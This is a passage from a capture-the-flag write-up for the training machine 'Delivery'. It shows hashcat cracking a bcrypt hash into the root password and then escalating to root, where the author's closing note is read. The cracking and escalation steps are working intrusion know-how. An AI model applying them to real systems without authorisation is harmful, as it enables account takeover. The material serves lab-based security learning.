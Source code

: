 ```bash

$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
Time.Started.....: Sat Feb 27 23:51:45 2021, (2 secs)
Time.Estimated...: Sat Feb 27 23:51:47 2021, (0 secs)
Guess.Base.......: File (pleasesub.list)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       56 H/s (8.64ms) @ Accel:8 Loops:16 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 70/3120 (2.24%)
Rejected.........: 6/70 (8.57%)
Restore.Point....: 38/3120 (1.22%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1008-1024
Candidates.#1....: PleaseSubscribe!50 -> PleaseSubscribe!63

Started: Sat Feb 27 23:51:44 2021
Stopped: Sat Feb 27 23:51:48 2021
```
The hash cracks, giving another credential pair: `root:PleaseSubscribe!21`.

### 8. Escalate to root
From here, just switch to the root user.
```bash
root@Delivery:~# ls
mail.sh  note.txt  py-smtp.py  root.txt
root@Delivery:~# cat note.txt
I hope you enjoyed this box, the attack may seem silly but it demonstrates a pretty high risk vulnerability I've seen several times.  The inspiration for the box is here: 

- https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c 

Keep on hacking! And please don't forget to subscribe to all the security streamers out there.

- ippsec
```
